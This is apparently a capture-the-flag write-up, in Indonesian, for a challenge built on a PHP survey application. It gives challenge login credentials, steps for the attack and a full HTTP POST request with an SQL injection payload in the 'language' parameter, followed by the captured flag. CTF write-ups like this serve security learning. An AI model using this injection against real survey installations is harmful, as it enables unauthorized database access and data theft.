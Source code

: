 # Survey Pemerintah

Author: [rafliher](https://github.com/rafliher)

## Description

Pernah coba aplikasi ini? Login pakai mack:Mack1234

## Requirements

None

## Sources

-

## Tags

- php

## Exploit

- Versi ini ada [kerentanan](https://github.com/Hebing123/cve/issues/55)
1. buat survey baru
2. edit survey, intercept
3. paramater language bisa dimasukan payload

payload:
```
POST /index.php/admin/database/index/updatesurveylocalesettings_generalsettings HTTP/2
Host: htwsoceng.rafliher.online
Cookie: PHPSESSID=98691rq14p7srt46ltkr6uck7c; LS-TWGYNBQGUZBXQWQM=abgha5ef7jugvmtta1oipslqah; YII_CSRF_TOKEN=b1R6S0xGYVhwYTRCR343Q2FCdzVHcW4xb3llODZFMFSW7X38Yyq7SJTSVWKeAClYDX6WEeteZDD37SHAkT4jqw%3D%3D
Content-Length: 553
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Brave";v="126"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Sec-Gpc: 1
Accept-Language: en-US,en;q=0.8
Origin: https://htwsoceng.rafliher.online
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://htwsoceng.rafliher.online/index.php/surveyAdministration/rendersidemenulink/subaction/generalsettings/surveyid/478939
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

YII_CSRF_TOKEN=b1R6S0xGYVhwYTRCR343Q2FCdzVHcW4xb3llODZFMFSW7X38Yyq7SJTSVWKeAClYDX6WEeteZDD37SHAkT4jqw%3D%3D&additional_languages%5B%5D=en&oldlanguages=&language='%20union%20select%20flag%20from%20flag;&owner_id=2&admin=inherit&adminbutton=Y&adminemail=inherit&adminemailbutton=Y&bounce_email=inherit&bounce_emailbutton=Y&gsid=1&format=I&template=inherit&action=updatesurveylocalesettings_generalsettings&sid=478939&surveyid=478939&responsejson=1&YII_CSRF_TOKEN=b1R6S0xGYVhwYTRCR343Q2FCdzVHcW4xb3llODZFMFSW7X38Yyq7SJTSVWKeAClYDX6WEeteZDD37SHAkT4jqw%3D%3D
```


## Flag

```
WRECKIT50{aplikasiopensourceyangseringdipakeinstansiternyatamasihadasqli}
```

## connection



## Severity
MEDIUM

